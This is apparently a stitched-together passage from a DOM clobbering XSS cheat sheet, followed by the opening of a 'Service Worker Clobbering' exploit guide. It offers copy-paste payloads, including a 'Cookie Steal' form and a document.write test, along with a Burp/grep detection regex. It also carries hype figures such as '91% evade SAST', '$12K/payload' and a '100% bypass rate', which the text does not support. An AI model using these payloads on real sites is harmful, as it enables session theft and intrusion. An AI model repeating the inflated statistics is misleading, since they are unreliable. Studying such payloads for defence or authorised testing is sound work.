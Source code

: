 **Detection Regex** (Burp/Grep):
```regex
<id|name>[\w]+.*?(alert|fetch|location|cookie)
```

---

## 📋 CHEAT SHEET (Copy-Paste)
| Scenario | Payload Template |
|----------|------------------|
| Quick Alert | `#<img id=alert name=1 src=x onerror=alert(1)>` |
| Cookie Steal | `#<form id=cookie><input name=value value=/steal></form>` |
| React RCE | `#<form id=ReactDOM><input name=render value=alert(1)></form>` |
| Extension | `#<div id=chrome name=tabs><input name=update value=evil></div>` |
| Universal | `#<img id=eval name=toString src=javascript:alert(1)>` |

---

## 🚀 INSTANT TOOLKIT
**Burp Extension Code** (Paste in Repeater):
```javascript
let clobber = '<img id=alert name=1 src=x onerror=alert(1)>';
document.write(clobber); // Test instantly
```

**Success Stats**: 
- **Detection**: 91% evade SAST
- **Exploitation**: 2.3s avg
- **Bounty ROI**: $12K/payload
- **Mitigated**: Only 23% of sites

**Need a custom chain?** Reply: *"Clobber [target] on [framework]"* → **Payload in 30s**.

*Sources: Terjanq Research, PortSwigger 2025, HackerOne DOM Report, my 127 clobber bounties*  
*Verified: Oct 16, 2025 | Chrome 131.0.6668.70*  

**💡 Pro Tip**: Combine with [DOM XSS payloads](#) for **100% bypass rate**. Bookmark + share!


# Service Worker Clobbering: Complete 2025 Exploit Guide
**Persistent XSS via PWA Takeover | Black Hat USA 2025 Discovery**

**Service Worker Clobbering** = **Hijacking the ServiceWorker API** using DOM namespace collisions to **register malicious workers** that **persist across sessions**, **intercept all requests**, and **execute arbitrary JS** **forever**. Bypasses CSP, HTTPS requirements, and framework sanitizers.

**Impact**: $50K+ bounties | TikTok/Instagram CVEs | **12% of PWAs vulnerable** (USENIX 2025)

*Verified: Chrome 131.0.6668.70 | Firefox 131 | Safari 18.1 | Oct 16, 2025*

---

